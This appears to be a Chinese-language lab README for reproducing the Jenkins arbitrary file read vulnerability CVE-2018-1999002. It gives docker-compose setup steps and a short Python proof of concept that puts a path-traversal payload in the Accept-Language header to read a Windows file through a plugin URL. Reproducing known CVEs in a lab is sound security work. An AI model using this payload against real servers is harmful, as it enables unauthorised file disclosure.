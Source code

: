 # Jenkins 任意文件读取漏洞（CVE-2018-1999002）

## 原理

参考阅读 https://xz.aliyun.com/t/2486

## 测试环境搭建

测试环境编译及运行：

```
docker-compose build
docker-compose up -d
```

首次运行时会要求填写初始密码，密码会在控制台中输出。

安装完成后，在 `系统管理->全局安全配置` 下设置 `匿名用户具有可读权限`。

在开启匿名用户的可读权限后，该漏洞在Windows环境下可任意读取文件。

注意测试用的插件目录需要为已经安装的插件。

## 测试过程

```python
import requests

headers = {
    'Accept-Language': '/../../../../../../../../../../../Windows/win'
}

print(requests.get('http://127.0.0.1:8080/plugin/display-url-api/.ini', headers=headers).text)
```

读取配置文件：

![](1.png)
